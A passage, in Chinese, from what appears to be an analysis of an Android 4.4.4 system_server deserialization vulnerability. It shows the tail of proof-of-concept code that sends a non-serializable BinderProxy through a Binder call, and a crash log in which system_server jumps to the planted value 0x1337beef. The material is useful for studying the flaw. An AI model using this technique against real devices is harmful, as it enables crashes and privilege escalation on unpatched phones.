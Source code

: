 ```
            /**
            通过Binder机制跨进程调用Android.os.UserManager.setApplicationRestrictions方法，
            向system_server传入的是实际不可序列化的Android.os.BinderProxy对象
            */
            mRemote.transact(TRANSACTION_setApplicationRestrictions, _data, _reply, 0);
            _reply.readException();
        }
        finally {
            _reply.recycle();
            _data.recycle();
        }
    }

```

安装POC，启动`Activity`后将其最小化，触发GC，引起Android系统重启，从Logcat日志中可以看到，`system_server`执行到了之前设置的`BinderProxy`对象的`0x1337beef`这个值，访问了不该访问的内存，导致异常。错误信号、寄存器快照和调用栈如下：

```
05-14 18:30:55.974: I/DEBUG(3695): Build fingerprint: 'google/hammerhead/hammerhead:4.4.4/KTU84P/1227136:user/release-keys'
05-14 18:30:55.974: I/DEBUG(3695): Revision: '11'
05-14 18:30:55.974: I/DEBUG(3695): pid: 1552, tid: 1560, name: FinalizerDaemon  >>> system_server <<<
05-14 18:30:55.974: I/DEBUG(3695): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 1337bef3
05-14 18:30:56.064: I/DEBUG(3695):     r0 1337beef  r1 401b89d9  r2 746fdad8  r3 6d4fbdc4
05-14 18:30:56.064: I/DEBUG(3695):     r4 401b89d9  r5 1337beef  r6 713e3f68  r7 1337beef
05-14 18:30:56.064: I/DEBUG(3695):     r8 1337beef  r9 74709f68  sl 746fdae8  fp 74aacb24
05-14 18:30:56.064: I/DEBUG(3695):     ip 401f08a4  sp 74aacae8  lr 401b7981  pc 40105176  cpsr 200d0030
...
I/DEBUG   (  241): backtrace:
I/DEBUG   (  241):     #00  pc 0000d176  /system/lib/libutils.so (android::RefBase::decStrong(void const*) const+3)
I/DEBUG   (  241):     #01  pc 0007097d  /system/lib/libandroid_runtime.so
I/DEBUG   (  241):     #02  pc 0001dbcc  /system/lib/libdvm.so (dvmPlatformInvoke+112)
I/DEBUG   (  241):     #03  pc 0004e123  /system/lib/libdvm.so (dvmCallJNIMethod(unsigned int const*, JValue*, Method const*, Thread*)+398)
I/DEBUG   (  241):     #04  pc 00026fe0  /system/lib/libdvm.so
I/DEBUG   (  241):     #05  pc 0002dfa0  /system/lib/libdvm.so (dvmMterpStd(Thread*)+76)
I/DEBUG   (  241):     #06  pc 0002b638  /system/lib/libdvm.so (dvmInterpret(Thread*, Method const*, JValue*)+184)
I/DEBUG   (  241):     #07  pc 0006057d  /system/lib/libdvm.so (dvmCallMethodV(Thread*, Method const*, Object*, bool, JValue*, std::__va_list)+336)
I/DEBUG   (  241):     #08  pc 000605a1  /system/lib/libdvm.so (dvmCallMethod(Thread*, Method const*, Object*, JValue*, ...)+20)
I/DEBUG   (  241):     #09  pc 00055287  /system/lib/libdvm.so
I/DEBUG   (  241):     #10  pc 0000d170  /system/lib/libc.so (__thread_entry+72)
I/DEBUG   (  241):     #11  pc 0000d308  /system/lib/libc.so (pthread_create+240)

```
